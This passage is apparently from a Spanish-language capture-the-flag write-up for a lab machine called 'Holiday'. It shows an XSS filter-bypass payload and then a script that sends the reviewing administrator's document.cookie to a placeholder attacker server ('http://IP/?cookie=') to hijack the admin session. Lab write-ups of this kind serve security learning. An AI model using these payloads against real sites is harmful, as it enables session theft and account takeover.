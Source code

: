 Como vemos recibimos una petición GET. Ahora intentaremos crear un nuevo payload ya que hemos notado que se eliminan las doble comillas (**`””`**) por lo que intentaremos introducir la etiqueta script dentro estas doble comillas:  
```jsx
<img src="test><script>alert(1)</script>">
```
![queryimg2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/cd43ba2d17b810abfd8473e194c056226851d4ae/_includes/CTFIMG/Holiday/queryimg2.png)

Podemos ver que efectivamente se eliminaron las doble comillas y a la vez no se han sanitizado los símbolos correspondientes para la etiqueta **`script`**. Para este caso en particular no se ha interpretado la alerta. Pero no podemos descartar que por el lado del administrador que revisa las notas se haya interpretado o no.
### Cookie Hijacking
Como se aprecia a continuación contamos con una cookie de sesión:     
![cookie](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/cd43ba2d17b810abfd8473e194c056226851d4ae/_includes/CTFIMG/Holiday/cookieh1.png)

La idea será robar la del usuario administrador que valida nuestras notas para suplantar su sesión. Es importante considerar que al momento de realizar la llamada a **`document.cookie`** NO se muestra la cookie de sesión en esta llamada:     
![doc.cookie](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/cd43ba2d17b810abfd8473e194c056226851d4ae/_includes/CTFIMG/Holiday/doc.cookie.png)

Por lo que el enfoque será enviar un payload el cual redireccione al administrador a un servidor controlado para obtener la cookie y recibirla de la siguiente manera:     
```bash
<img src="test><script>document.location("http://IP/?cookie=' + document.cookie + '")</script>
```
![largqry1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/cd43ba2d17b810abfd8473e194c056226851d4ae/_includes/CTFIMG/Holiday/querylg1.png)

